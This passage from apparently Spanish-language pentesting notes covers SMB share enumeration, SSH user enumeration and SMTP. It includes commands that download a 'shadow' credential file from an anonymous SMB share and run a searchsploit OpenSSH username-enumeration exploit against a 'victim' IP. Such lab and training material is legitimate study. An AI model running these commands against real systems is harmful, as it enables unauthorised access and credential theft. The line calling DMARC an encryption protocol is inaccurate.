 ```
smbmap -H <ip-address> -r anonymous

smbmap -H <ip-address> --download /anonymous/shadow
```

<br><br>
## 22 SSH (Secure Shell).
Protocolo usado para conectarse de forma remota a un servidor de forma segura.<br>
Existe un exploit que te ayuda a enumerar usuarios existentes en un servidor si la versión es inferior a 7.7.<br>
Primero buscas un script que te permita explotar la vulnerabilidad con la herramienta searchsploit.

```
searchsploit ssh user enumeration
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                          | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                    | linux/remote/45210.py
OpenSSH 7.2p2 - Username Enumeration                              | linux/remote/40136.py
OpenSSH < 7.7 - User Enumeration (2)                              | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                             | linux/remote/40113.txt
------------------------------------------------------------------ ---------------------------------
```
\\
Copias el script.py a la ruta actual para poder ejecutarlo.
```
searchsploit -m linux/remote/45939.py
```

Finalmente ejecutas el exploit con python indicando un usuario, seguido de la dirección IP de la máquina víctima.
<br>

- Uso: `` python2 45939.py <user> <ip-address> ``
<br><br>

```
python2 45939.py root 192.168.5.65
```


<br><br>
## 25 SMTP (Simple Mail Transfer Protocol).
Protocolo de red de texto plano utilizado para enviar y recibir correos electrónicos lo que hace que las comunicaciones entre el cliente de correo y el servidor de correo puedan ser legibles para cualquier persona que interprete la comunicación. Para evitar esto se utilizan protocolos de cifrado como STARTTLS o DMARC.<br>
Cuando un usuario envía un correo electrónico, su cliente de correo (ya sea Outlook o Gmail) utiliza SMTP para enviar el mensaje al servidor de correo destinatario.
